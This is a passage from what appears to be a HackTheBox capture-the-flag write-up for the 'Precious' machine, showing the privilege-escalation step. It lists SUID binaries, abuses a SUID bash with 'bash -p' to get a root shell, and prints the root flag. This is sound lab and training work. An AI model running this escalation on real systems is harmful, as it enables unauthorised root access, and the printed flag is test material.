 ### Privilege Escalation

Now for privilege escalation. We search for any SUID files within the system.

##### Command:
>find / -perm 6000

```
/usr/local/share/fonts
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/crontab
/usr/bin/expiry
/usr/bin/bash
/usr/bin/su
/usr/bin/wall
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chage
/usr/bin/mount
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
```
Apart from the usual SUID files we expect to find, we see that ```bash``` has the SUID bit enabled. After consulting [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) we can simply run ```bash -p``` to exploit this misconfiguration.

```
bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c067311b8ba45659f38cace8b536e0ae
```

And we now have the root flag, and have thus pwned Precious!

![alt text](/assets/img/hackthebox/precious/pwned.PNG "pwned")
